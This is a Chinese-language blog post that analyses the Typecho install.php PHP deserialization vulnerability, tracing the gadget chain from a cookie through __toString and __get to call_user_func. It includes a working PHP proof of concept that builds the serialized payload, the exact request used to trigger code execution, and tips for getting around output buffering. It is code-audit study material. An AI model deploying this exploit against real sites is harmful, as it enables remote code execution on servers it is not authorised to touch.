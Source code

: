 ```yaml
---
title: Typecho install.php 反序列化漏洞分析
date: 2017-10-30 14:32:18
tags: [反序列化,漏洞分析,php]
categories: Security
---
```

<script src="https://ob5vt1k7f.qnssl.com/pangu.js"></script>

正好在学习php代码审计，简单分析一下前几天的`Typecho install.php`反序列化漏洞

### 漏洞分析
漏洞点出现在`install.php`第229-235行:

![0](https://ob5vt1k7f.qnssl.com/Affah)
这里进行了一个反序列化操作，一般碰到这个都值得注意一下

由于这是初始安装文件，复现时要想流程走到这里就得绕过程序自身的判断，它的判断逻辑如下:

![1](https://ob5vt1k7f.qnssl.com/fQO9b)

就进行了两个简单的判断，`HTTP_REFERER`是否为空以及是否来源于本站，这是很容易绕过的

往下执行到`unserialize(base64_decode(Typecho_Cookie::get('__typecho_config')))`反序列化操作，如果`Typecho_Cookie::get('__typecho_config')`可控的话就可能导致一个漏洞

跟进`Typecho_Cookie`类的`get()`方法分析一下:

![2](https://ob5vt1k7f.qnssl.com/HW0eV)

可以看到`$_COOKIE[$key]`的内容都是我们可以控制的，存在风险

继续往下看到
`$db = new Typecho_Db($config['adapter'], $config['prefix']);`这里新建了一个`Typecho_Db`对象，跟进去看一下这个对象的构造方法:

![3](https://ob5vt1k7f.qnssl.com/yLOrO)

注意这一行`$adapterName = 'Typecho_Db_Adapter_' . $adapterName;`
将`Typecho_Db_Adapter_`属性与字符串进行了拼接，这就涉及到php的一个特性，如果`Typecho_Db_Adapter_`传入的是一个实例化对象，那将自动触发这个对象的`__toString()`方法

我们全局搜索`__toString()`方法，可以在`Feed.php`的第223行找到一个`__toString()`方法:

![4](https://ob5vt1k7f.qnssl.com/nXTJN)

里面进行了3个`if`判断，注意到第3个`if`中有这样一句(同样在第2个`if`中也存在):

![5](https://ob5vt1k7f.qnssl.com/11MHn)

访问了`item`元素里的一个属性`screenName`，这就又涉及到php的一个特性，如果我们访问一个对象的私有属性或者不存在的属性到时候，会自动调用这个对象的`__get()`方法，所以我们只要找到一个`__get()`方法并且它的参数可控，那就形成了一条完整的调用链。

全局搜索`__get()`方法，在`Request.php`第269行:

![6](https://ob5vt1k7f.qnssl.com/zcYKG)

继续跟进`get`，第295行

![7](https://ob5vt1k7f.qnssl.com/EbE9r)

可以看到自定义的`get()`方法最终返回的是`$this->_applyFilter($value)`，跟进`_applyFilter()`看一下:

![8](https://ob5vt1k7f.qnssl.com/tztDS)

注意这里调用了`call_user_func()`方法，而且这里的两个参数都是可控的，这就形成了一个任意代码执行的漏洞

反过来回顾一下整个流程，构造`call_user_func()`恶意方法——调用`__get()`方法——调用`__toString()`方法——控制传入的类——反序列化

### PoC
```
<?php
class Typecho_Feed
{
    const ATOM1 = 'ATOM 1.0';
    private $_type;
    private $_items;
	
    public function __construct(){
        $this->_type = $this::ATOM1;
        $this->_items[0] = array(
            'author' => new Typecho_Request(),
        );
    }
}
class Typecho_Request
{
    private $_params = array();
    private $_filter = array();
    public function __construct(){
        $this->_params['screenName'] = 'phpinfo()';
        $this->_filter[0] = 'assert';
    }
}
$exp = array(
    'adapter' => new Typecho_Feed(),
    'prefix' => 'test'
);
echo base64_encode(serialize($exp));
?>
```
构造`__typecho_config`的值等于PoC输出内容，加上`referer`头信息，发送给`http://localhost/install.php?finish=1`
PoC执行流程: base64编码后的序列化内容经过解码后反序列化，传给`Typecho_Db`构造函数，其中`adapter`参数是一个`Typecho_Feed`对象，拼接了字符串会调用`__toString()`方法，控制可控变量进入第2个if分支，执行到`$item['author']->screenName`，当`author`是一个`Typecho_Request`对象且没有`screenName`属性时，会调用`__get()`方法执行`_applyFilter()`，进而执行`call_user_func`，传入`assert(phpinfo());`执行成功

![9](https://ob5vt1k7f.qnssl.com/Ple7u)

最后还有一个`ob_start()`的问题，`install.php`中开启了这个，

> 此函数将打开输出缓冲。当输出缓冲激活后，脚本将不会输出内容（除http标头外），相反需要输出的内容被存储在内部缓冲区中。

所以会触发异常后导致500，同时输出内容会在缓冲区会清除，@[LoRexxar'](https://lorexxar.cn/)给出了两个解决办法

> 1、因为`call_user_func`函数处是一个循环，我们可以通过设置数组来控制第二次执行的函数，然后找一处exit 跳出，缓冲区中的数据就会被输出出来。
 
> 2、第二个办法就是在命令执行之后，想办法造成一个报错，语句报错就会强制停止，这样缓冲区中的数据仍然会被输出出来。

总的来看这个漏洞还是比较经典的，涉及到几个特性和两三层的调用链，至于流传的“后门”说法还是持保留态度，我们还是回归到技术交流本身吧~

参考:

[Typecho 前台 getshell 漏洞分析](https://paper.seebug.org/424/)

[POP链和序列化，反序列化操作](http://www.blogsir.com.cn/safe/452.html)

<script>pangu.spacingPage();</script>